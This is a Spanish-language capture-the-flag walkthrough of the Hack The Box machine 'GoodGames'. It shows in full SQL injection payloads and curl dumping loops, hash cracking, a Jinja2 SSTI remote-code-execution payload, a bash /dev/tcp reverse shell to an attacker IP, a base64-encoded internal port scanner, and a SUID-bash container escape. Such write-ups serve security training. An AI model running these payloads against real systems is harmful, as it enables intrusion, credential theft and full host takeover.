---
**Máquina:** GoodGames

**Plataforma:** Hack The Box

**Laboratorio:** [GoodGames machine](https://app.hackthebox.com/machines/GoodGames)

**Target:** 10.10.11.130

**Explotación**: [SQLi](../../../../OWASP%20TOP%2010/SQLi) y [SSTI](../../../../OWASP%20TOP%2010/SSTI)


---
# Guía de explotación paso a paso 'GoodGames'

## Resumen

> En esta guía describimos, de forma concisa, cómo explotamos una vulnerabilidad SQLi para conseguir acceso inicial, escalar a RCE vía SSTI y finalmente escapar del contenedor hasta el host. Los pasos son reproducibles en el laboratorio de Hack The Box.

---

## Reconocimiento

Acción: escaneo inicial con nmap

```Shell
nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.11.130 -oG allPorts
```

Resultado:

```Shell
	[*] IP Address: 10.10.11.130
	[*] Open ports: 80
```

Explicación: solo encontramos un único puerto abierto. Como en un servicio web podemos examinar tecnologías con `whatweb <url_objetivo>` y visitar la dirección web para ver a que nos enfrentamos.



Tenemos una página web, similar a la famosa plataforma *Steam*. Indagamos entre las diferentes funcionalidades y damos con un panel de login (arriba a la derecha, donde el icono de perfil).



Este panel podemos interceptarlo con BurpSuite para mayor análisis. Vemos que desde BurpSuite, podemos colar una inyección SQL y loguearnos como el usuario administrador. Entonces esta misma petición la enviamos pero desde `Proxy/Intercept` para hacer `Forward` y obtener en el navegador la página logueada.



Desde la pestaña del icono de ajustes, nos redirige a un dominio que tiene virtual hosting, por lo que añadimos dicho dominio a nuestro `/etc/hosts` para poder resolver la dirección.



Una vez en este panel, lo ideal es aprovecharnos de la vulnerabilidad SQL que encontramos al loguearnos, para extraer información de la base de datos y ver si hay una reutilización de contraseñas.




---

## Enumeración

Volviendo al campo vulnerable a SQLi. Vemos que todas las respuestas que no sean inferior a un número de columnas inferior a 4 tienen un `Content-Length: 33490`. De lo contrario pasa a ser de `9267`





Con la siguiente query, podremos localizar fácilmente con BurpSuite si existe una columna en la que podamos introducir nuestra consulta. 

```SQL
' union select 'test','testing','testeo','testa'-- -
```

En la columna 4 se aplica nuestra query `testa`



Query para extraer de una en una el nombre de las bases de datos

```SQL
' union select NULL,NUll,Null,schema_name FROM information_schema.schemata limit 1,1-- -
```

Nos reporta dos bases de datos `information_schema` (es la típica por defecto) y `main` (esta sí es interesante)



```SQL
' union select NULL,NULL,NULL,table_name FROM information_schema.tables where table_schema='main' limit 2,2-- -
```

Resultado tablas: `blog, blog_comments, user`

```SQL
' union select NULL,NULL,NULL,column_name FROM information_schema.columns where table_schema='main' and table_name='user' limit 0,1-- -
```

Resultado columnas: `id, email, password, name`

```SQL
' union select NULL,NULL,NULL,concat(email,'---',password) FROM user-- -
```

Resultado email y password: `admin@goodgames.htb---2b22337f218b2d82dfc3b6f77e7cb8ec`



### Enumeración con curl

Listando todas las tablas de la base de datos en uso

```bash
for i in $(seq 0 100); do echo "[+] Para $i: $(curl -s -X POST http://10.10.11.130/login --data "email=tests%40test.com' union select NULL,NULL,NULL,table_name FROM information_schema.tables limit $i,1-- -&password=test"  | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done
```

Resultado:

```bash
[+] Para 0: ADMINISTRABLE_ROLE_AUTHORIZATIONS
[+] Para 1: APPLICABLE_ROLES
[+] Para 2: CHARACTER_SETS
[+] Para 3: CHECK_CONSTRAINTS
[+] Para 4: COLLATIONS
[+] Para 5: COLLATION_CHARACTER_SET_APPLICABILITY
[+] Para 6: COLUMNS
[+] Para 7: COLUMNS_EXTENSIONS
```

Listando tablas de la base de datos `main`

```bash
for i in $(seq 0 100); do echo "[+] Para $i: $(curl -s -X POST http://10.10.11.130/login --data "email=tests%40test.com' union select NULL,NULL,NULL,table_name FROM information_schema.tables where table_schema='main' limit $i,1-- -&password=test"  | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done
```

Resultado:

```bash
[+] Para 0: blog
[+] Para 1: blog_comments
[+] Para 2: user
```

Extrayendo `email` y `password` de la tabla `user`

```bash
curl -s -X POST http://10.10.11.130/login --data "email=tests%40test.com' union select NULL,NULL,NULL,concat(email,':',password) FROM user-- -&password=test"  | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<"
```

Resultado:

```bash
admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec
```


---

## Explotación

Como tenemos una contraseña que no esta en texto plano, vamos a usar el siguiente recurso web para crackear la contraseña: [CrackStation](https://crackstation.net/)

Resultado: `superadministrator`



```bash
john -w:/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5
```

Con el usuario `admin` y la contraseña `superadministrator` podemos loguearnos en el panel de autenticación descubierto con virtual hosting anteriormente. 



Desde este panel de administrador, tratamos de ver si reflejamos alguna entrada de teclado que hagamos. Vamos a la sección de cambiar nuestro nombre de perfil y vemos que es vulnerable a [SSTI](../../../../OWASP%20TOP%2010/SSTI/Server-Side%20Template%20Injection%20-%20SSTI.md)

**Nota:** probamos este tipo de vulnerabilidad ya que con `wappalyzer` vemos que se usa `Flask` la cual en versiones desactualizadas puede ser vulnerable a SSTI



```bash
{{7*7}}
```




[Recomendamos visitar PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution)

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```


Confirmamos la ejecución remota de comandos. Ahora estamos en disposición de enviarnos una reverse shell.

```bash
nc -lvnp 443
```

Enviamos una reverse shell hacia nuestra IP de la VPN de Hack The Box

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >&/dev/tcp/10.10.16.6/443 0>&1"').read() }}
```

Resultado: obtenemos una reverse shell

```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.130] 47146
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
```


---

## Elevar privilegios

Comprobamos en que máquina estamos

```bash
ip a
```

Vemos que estamos dentro de un contenedor del que tendremos que escapar

```bash
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```


---

### Vía potencial de escape del contenedor

#### 1. Secuencia observada (comandos y salidas)

Ejecutamos los siguientes comandos dentro de la shell que obtuvimos como `root` en el contenedor:

```bash
root@3a453ab39d3d:/backend# ls /home
ls /home
augustus
root@3a453ab39d3d:/backend# ls -l /home/augustus
ls -l /home/augustus
total 4
-rw-r----- 1 root 1000 33 Oct  7 09:40 user.txt
root@3a453ab39d3d:/backend# route -n
route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         172.19.0.1      0.0.0.0         UG    0      0        0 eth0
172.19.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0
root@3a453ab39d3d:/backend# mount | grep home
mount | grep home
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
root@3a453ab39d3d:/backend# hostname -I
hostname -I
172.19.0.2
root@3a453ab39d3d:/backend# cat /home/augustus/user.txt
cat /home/augustus/user.txt
7985a43215c2b4111096fbfb
```

#### 2. Interpretación técnica (en primera persona del plural)

1. **Existencia de un directorio home de usuario:** En `/home` aparece el usuario `augustus` y tiene un fichero `user.txt` legible por `root`. Esto indica que dentro del contenedor está disponible un sistema de ficheros montado que contiene datos de usuario.

2. **El `mount` revela un dispositivo de bloque físico:** La línea


```
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```

muestra que `/dev/sda1` (un dispositivo de bloque) está montado en `/home/augustus`. En entornos Docker habituales los sistemas de archivos del host o volúmenes específicos pueden exponerse dentro del contenedor como dispositivos o como bind-mounts. El hecho de que aparezca `/dev/sda1` es un indicador relativamente fuerte de que se montó una partición de un host (o un bloque representado por el host) dentro del contenedor.

3. **Red en puente del contenedor:** La tabla de ruteo muestra la red `172.19.0.0/16` asociada a `eth0`, típico de redes Docker internas. La IP `172.19.0.2` confirma que estamos dentro de una red de contenedores.

4. **Acceso a archivos de usuario:** Hemos leído el contenido de `/home/augustus/user.txt` con éxito. Esto confirma que el contenido del dispositivo montado está accesible desde nuestra sesión dentro del contenedor.


**Conclusión:** la presencia de `/dev/sda1` montado y el acceso a `user.txt` sugieren que podríamos interactuar directamente con el sistema de ficheros del host (o con una partición que proviene del host). Esto constituye una **vía potencial** para escalar privilegios o escapar del contenedor si el contenido montado incluye binarios, archivos de configuración o credenciales que nos permitan pivotar hacia el host.


#### 3.  Escaneo de puerto internos con `/dev/tcp` 

Hemos ejecutado desde la shell del contenedor una serie de intentos de conexión TCP usando la redirección especial de bash hacia `/dev/tcp/<host>/<port>`. 

```bash
echo '' > /dev/tcp/172.19.0.1/80
echo $?
```

- `echo '' > /dev/tcp/172.19.0.1/80` abre un socket TCP hacia la IP `172.19.0.1` en el puerto `80` y envía una cadena vacía (es decir: intenta conectarse y escribir nada).

- La construcción `/dev/tcp/host/port` es una funcionalidad de bash que, internamente, realiza un `socket()` y un `connect()` al destino; si `connect()` tiene éxito, la redirección se comporta como si escribiéramos en un descriptor de archivo abierto sobre la conexión TCP.

- `echo $?` devuelve el **código de salida** del comando anterior. Un `0` significa que la operación (conectar y escribir) terminó sin error observable por el shell. En este caso `0` indica que pudimos establecer la conexión con `172.19.0.1:80` y el intento de escritura no provocó error.


Repetimos lo mismo con el puerto `22`:

```bash
echo '' > /dev/tcp/172.19.0.1/22
echo $?
```

- El `0` devuelto indica igualmente que el `connect()` hacia `172.19.0.1:22` tuvo éxito y no se produjo un error de escritura inmediato. Por tanto, `172.19.0.1` tiene algo que acepta conexiones en el puerto `22` (o al menos no rechaza la conexión).


Finalmente probamos el puerto `5555`:

```bash
echo '' > /dev/tcp/172.19.0.1/5555
# salta:
bash: connect: Connection refused
bash: /dev/tcp/172.19.0.1/5555: Connection refused
echo $?
# devuelve 1
```

- Aquí vemos un mensaje explícito `Connection refused`. Eso proviene del intento de `connect()` fallido: el sistema remoto respondió que no hay ningún servicio escuchando en ese puerto (o el firewall devuelve RST).

- El código de salida `1` indica que el comando falló — el shell no pudo abrir/escribir en el descriptor porque `connect()` devolvió error.


##### Interpretación práctica (qué nos dice esto sobre la red)

- Los puertos **80** y **22** en `172.19.0.1` son accesibles desde dentro del contenedor: el intento de conexión tuvo éxito (exit code `0`). No implica necesariamente que obtuvimos aplicación-level response (por ejemplo, no sabemos si el servicio habló HTTP/SSH correctamente con ese `echo`), pero sí confirma que el _socket_ aceptó la conexión.

- El puerto **5555** está cerrado o no está escuchando en `172.19.0.1`: el `connect()` fue rechazado y el comando devolvió error (`exit code 1`).

- `172.19.0.1` es muy probablemente la puerta de enlace de la red de contenedores (bridge) — en entornos Docker esa IP suele corresponder al host o al gateway de la red. El hecho de que podamos llegar a puertos TCP del gateway desde el contenedor indica conectividad con servicios del host/puerta de enlace, lo cual es útil para enumeración/post-explotación.


---

### Script reconocimiento de puertos

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "\n\n[!] Saliendo...\n"
  tput cnorm; exit 1
}

# Ctrl+C
trap ctrl_c INT

tput civis

for port in $(seq 1 65536); do
  timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Puerto abierto: $port" &
done; wait
tput cnorm
```

```bash
base64 -w 0 portScan.sh | xclip -sel clip
```

Nos creamos el script en nuestra máquina atacante y nos lo pegamos en la máquina objetivo para enviarlo a un archivo, darles permios de ejecución y escanear los puertos abiertos por la red interna del contenedor

```bash
echo IyEvYmluL2Jhc2gKCmZ1bmN0aW9uIGN0cmxfYygpewogIGVjaG8gLWUgIlxuXG5bIV0gU2FsaWVuZG8uLi5cbiIKICB0cHV0IGNub3JtOyBleGl0IDEKfQoKIyBDdHJsK0MKdHJhcCBjdHJsX2MgSU5UCgp0cHV0IGNpdmlzCgpmb3IgcG9ydCBpbiAkKHNlcSAxIDY1NTM2KTsgZG8KICB0aW1lb3V0IDEgYmFzaCAtYyAiZWNobyAnJyA+IC9kZXYvdGNwLzE3Mi4xOS4wLjEvJHBvcnQiIDI+L2Rldi9udWxsICYmIGVjaG8gIlsrXSBQdWVydG8gYWJpZXJ0bzogJHBvcnQiICYKZG9uZTsgd2FpdAp0cHV0IGNub3JtCg== | base64 -d > portScan.sh
```

Resultado:

```bash
[+] Puerto abierto: 22
[+] Puerto abierto: 80
^C
```


---

### Pivoting

```bash
ssh augustus@172.19.0.1
```

```bash
augustus@172.19.0.1's password: superadministrator

...

augustus@GoodGames:~$ hostname -I
10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:fe94:a818 
```

Explicación: tenemos una reutilización de contraseñas, podemos acceder al usuario `augustus` que conecta con la IP de la máquina objetivo `10.10.11.130`

Acciones:

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
root@3a453ab39d3d:/backend# cd /home/augustus
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4755 bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@GoodGames:~$ ./bash -p
```

Explicación: aprovechamos que el contenedor está montado desde la raíz de root y que tenemos ciertos permisos para poder ejecutarnos una bash como usuario root.

[Ver explicación detallada en Escapa Docker](Escape%20Docker.md)

---

